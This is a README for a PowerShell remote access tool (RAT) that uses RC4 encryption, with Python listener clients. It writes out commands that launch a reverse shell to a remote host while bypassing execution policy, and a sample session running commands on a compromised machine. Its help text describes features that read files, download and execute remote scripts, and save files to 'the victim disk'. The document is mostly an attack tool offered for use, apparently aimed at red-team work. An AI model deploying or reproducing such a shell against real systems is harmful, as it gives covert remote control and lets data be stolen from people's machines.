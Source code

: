 # RC4-PowerShell-RAT
Simple powershell reverse shell using RC4 encryption for all the commands and payloads. PsShellClient.py only accept one client at the time. MultiPsShellClient.py accept several clients at the time.

The RAT will also save all the commands and output received in a log file.

# Usage
```
PS-RemoteShell -ip 1.1.1.1 -port 1111 -key test
```
```
$ python PsShellClient.py
PS-RemoteShell Python Client v1.0
Mr.Un1k0d3r RingZer0 Team


Usage: PsShellClient.py ip port key

$ python PsShellClient.py 0.0.0.0 1111 test
```

```
$ python MultiPsShellClient.py 127.0.0.1 8888 test 20

PS-RemoteShell Python Client v1.1
Mr.Un1k0d3r RingZer0 Team


Help
------
list            List all sessions
interact id     Interact with a session (Example: interact 1)
background      Return to the main console

[*] Waiting for a connection...


(Main Console)>>> [+] *** NEW Callback from 127.0.0.1:49416. Session ID:15

(Main Console)>>> list
Session         Host
---------       ------
15              Callback from 127.0.0.1:49416

(Main Console)>>> interact 15
(192.168.238.1:RINGZER0\mrun1k0d3r):Command >whoami
RINGZER0\mrun1k0d3r

(192.168.238.1:RINGZER0\mrun1k0d3r):Url >background
(Main Console)>>> list
Session         Host
---------       ------
15              Callback from 127.0.0.1:49416

(Main Console)>>> interact 15
RINGZER0\mrun1k0d3r

(192.168.238.1:RINGZER0\mrun1k0d3r):Command >...
```

# Example
```
powershell -exec bypass Import-Module .\PS-RemoteShell.ps1; PS-RemoteShell -ip 1.1.1.1 -port 1111 -key test
```

```
(10.0.0.153:RINGZER0\mrun1k0d3r):Command >help

Supported commands:
------------------------------

        read    [path]          Show the content of the specified file
        remote  [url cmd]       Remotely download powershell script and execute a command
        upload  [url path]      Download a remote file and save it to the victim disk
        help                    Show this help
        
(10.0.0.153:RINGZER0\mrun1k0d3r):Command >read C:\windows\win.ini
[*] ReadFile: Reading C:\windows\win.ini
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
...
[*] ReadFile: execution Completed



```

# Credit 
Mr.Un1k0d3r RingZer0 Team

https://ringzer0team.com
